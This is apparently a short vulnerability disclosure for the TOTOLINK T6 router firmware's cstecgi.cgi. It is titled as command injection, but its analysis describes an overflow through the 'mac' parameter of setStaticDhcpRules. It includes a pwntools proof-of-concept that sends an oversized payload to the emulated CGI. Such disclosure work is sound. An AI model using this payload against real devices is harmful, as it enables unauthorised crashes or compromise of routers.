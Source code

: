 # Command Injection

## TOTOLINK_T6

version: V4.1.5cu.709_B20210518

## Description:

There is a execute arbitrary command  in cstecgi.cgi

## Source:

you may download it from : http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=16&ids=36

## Analyse:



in sub_421504, v6 get from mac

![](1.png)


and then concat v21 and v9 , v9 get from v6 , cause overflow
![](2.png)

## POC

```
from pwn import *
import json

data = {
    "topicurl": "setting/setStaticDhcpRules",
    "addEffect": "1",
    "mac": b'a'*0x200 + b':'
}

data = json.dumps(data)
print(data)

argv = [
    "qemu-mipsel-static",
    "-g", "1234",
    "-L", "./root/",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.0.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)
a.sendline(data.encode())

a.interactive()
```
